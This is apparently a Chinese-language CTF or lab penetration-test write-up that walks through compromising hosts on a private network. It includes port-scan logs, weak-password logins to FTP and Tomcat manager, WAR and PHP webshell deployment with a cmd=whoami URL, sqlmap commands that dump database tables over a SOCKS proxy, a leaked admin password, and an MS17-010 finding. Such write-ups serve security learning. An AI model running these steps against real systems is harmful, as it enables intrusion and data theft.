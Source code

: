 192.168.6.15是一台FTP服务器。

```Bash
[+] 192.168.6.15:         - 192.168.6.15:22 - TCP OPEN
[+] 192.168.6.15:         - 192.168.6.15:21 - TCP OPEN
```

FTP服务器存在弱口令漏洞，可以通过123456登录，里面存着192.168.6.17的源码（非完全一致）。里面也有mail系统邮箱和密码的泄漏。这台服务器不存在flag，不撸下来其实问题也不大。

192.168.6.16是一个邮件系统。

![3](https://momomoxiaoxi.com/img/post/429/2.png)

如果撸下来前面的FTP服务器，就可以通过源码中泄漏的用户名和密码登录。此外，这个邮箱也是一个flag。

```bash
[+] 192.168.6.16:         - 192.168.6.16:22 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:80 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:3306 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:8009 - TCP OPEN
[+] 192.168.6.16:         - 192.168.6.16:8080 - TCP OPEN

```

16机器开着8080，是一个tomcat，可以通过弱口令manager登录，直接部署war包就能得到root权限，获得webshell。（<http://192.168.6.16:8080/manager/html>，http://192.168.6.16:8080/jsp/jsp.jsp?cmd=whoami）

拿到webshell后，可以得到一个flag。然后查看源码，查询数据库也可以得到邮件名字得到flag。此外，在这个服务器上的根目录也有一个flag。

这里很蛋疼，部署war包得到的是jsp的马，而蚁剑没办法管理jsp的马。有一个思路就是通过这个jsp，往80端口的php mail服务器写一个php的马，再通过蚁剑管理。



192.168.6.17是内网管理网站？。这里AWVS通过HTTP代理扫描了一下，又给了一个惊喜，直接给了sql盲注(http://192.168.6.17/message.php，id存在盲注)。

然后，通过socks代理直接sql注入即可。

```bash
python sqlmap.py --proxy=socks5://172.16.8.3:1088 -u "http://192.168.6.17/message.php?id=1" -D my_oa -T flag --dump
python sqlmap.py --proxy=socks5://172.16.8.3:1088 -u "http://192.168.6.17/message.php?id=1" -D my_oa -T admin --dump
```

Flag表中存在一个flag，这里注入出admin的密码后，反解一下。admin,37s984pass。

登录后，有一个上传点可以直接上传php马，然后获得webshell，翻一下目录也可以得到一个flag。

#### 域渗透

最后是一台windows服务器，应该就是域控制器，通过msf可以得到这台windows存在MS17-010的洞。

```bash
[+] 192.168.6.200:        - 192.168.6.200:53 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:80 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:135 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:445 - TCP OPEN
[+] 192.168.6.200:        - 192.168.6.200:3389 - TCP OPEN
192.168.6.200:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (64-bit)

```
